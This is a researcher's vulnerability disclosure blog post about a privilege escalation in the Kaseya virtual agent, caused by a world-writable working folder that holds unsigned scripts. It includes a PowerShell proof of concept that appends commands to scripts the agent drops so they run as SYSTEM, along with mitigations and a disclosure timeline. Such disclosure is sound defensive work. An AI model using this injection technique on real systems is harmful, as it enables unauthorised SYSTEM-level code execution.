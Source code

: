 ```yaml
---
layout: post
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
So this is the first time I've written about a security issue I've found. Previously they have been non issues or in niche products.
I decided to write about this as the vendor was extermely unresponsive and going through previous product CVEs it seems to be a
trait of the company, ignore the issue until an exploit is published. The other reason is that if a company is using this product then generally every machine is at risk. So I give you Kaseyas virtual agent.

<h3>Product</h3>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via deployed agents.
Its a competitor for Microsofts system center and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.

<h3>Vulnerability</h3>
This is not really a new issue as such but more an extension of <a herf="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
Where a fix was put in place for the original issue - it seems they didnt look at the root cause.
Excesive access to the working folder for an elevated account.

Kaseya agent has a working folder that defaults to <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk.
By default the any authenticate user can read / write this folder.

Scripts are not authenticated and are written to disk prior to execution.
So if the folder is monitored for script files being dropped an attacker just needs to append their own code prior to execution.

<h3>Impact</h3>
Given that the Kaseya virtual agent is an IT managment tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. However the vulnerability itself is reliant on code execution within the working folder and is dependant on scheduled tasks or an administrator executing tasks so the wait time can vary from 1 hour, a day or week.

If the working folder is commonly used with scripted commands this will be quite reliable for all systems - so the impact will vary dependant on an IT departments use of this.

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the Kaseya working directory.
When a ps1 script drops it will then append to the end the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
If you are using Kaseya all scripts should be signed and verified prior to execution eliminiating the ability to append arbitary commands. Additionally Kaseya should remove the excesive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requsting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
</ul>
